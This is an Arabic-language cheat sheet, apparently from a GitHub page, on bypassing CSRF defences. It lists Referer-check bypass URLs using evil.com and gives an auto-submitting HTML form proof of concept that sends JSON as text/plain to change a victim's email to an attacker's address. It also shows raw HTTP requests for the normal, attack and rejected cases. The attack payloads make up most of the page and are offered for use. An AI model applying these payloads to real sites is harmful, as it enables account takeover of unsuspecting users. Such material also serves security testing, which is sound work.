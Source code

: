 ## *طرق التحايل على Referrer*

ممكن تقدر تتجاوز فحص Referrer باستخدام واحدة من الطرق دي:

- evil.com/account.example.com
- account.exampleevil.com
- evil.com#account.example.com
- evil.com/file@example.com   ---> *دي الأكتر استخدامًا*

---
---

## *🔹 التحايل على JSON Format في CSRF*

🔹 *لو لازم تضيف بيانات بصيغة JSON جوا PoC، فيه طريقة تقدر تستخدمها:*

✅ **بدل ما تبعت Content-Type: application/json، استخدم Content-Type: text/plain!**

🔹 *كود استغلال PoC:*
```
html
<form name="hacker" method="POST" action="https://example.com/phone.json" enctype="text/plain">
    <input type="hidden" name='{"new_email":"attacker@example.com"}'>
</form>
<script>
    document.forms[0].submit();
</script>
```

🔹 *الفرق في الطلبات:*

- *الطلب العادي:*
  
```
  POST /api/profile/update HTTP/2
  Host: app.example.com
  Content-Type: application/json
  {
      "new_email": "user@example.com"
  }
  ```
- **الهجوم باستخدام text/plain:**
  
```
  POST /api/profile/update HTTP/2
  Host: app.example.com
  Content-Type: text/plain
  {"new_email":"attacker@example.com"}
  ```

✅ *كده السيرفر هيقرا البيانات عادي وCSRF هيشتغل!* 🚀🔥
---
� **لما تبعت طلب بـ Referrer غير متوافق مع الموقع، ممكن يرد عليك بـ 400 Bad Request!** 😵

🔹 **مثال لطلب فشل بسبب Referrer مش مقبول:**
```
http
POST /api/profile/update HTTP/2
Host: app.example.com
Content-Type: application/x-www-form-urlencoded
Referer: https://attacker.com/poc

new_email=attacker%40example.com
```
🔹 **السيرفر هيرد بـ HTTP/2 400 Bad Request وبالتالي الهجوم هيفشل.** ❌

---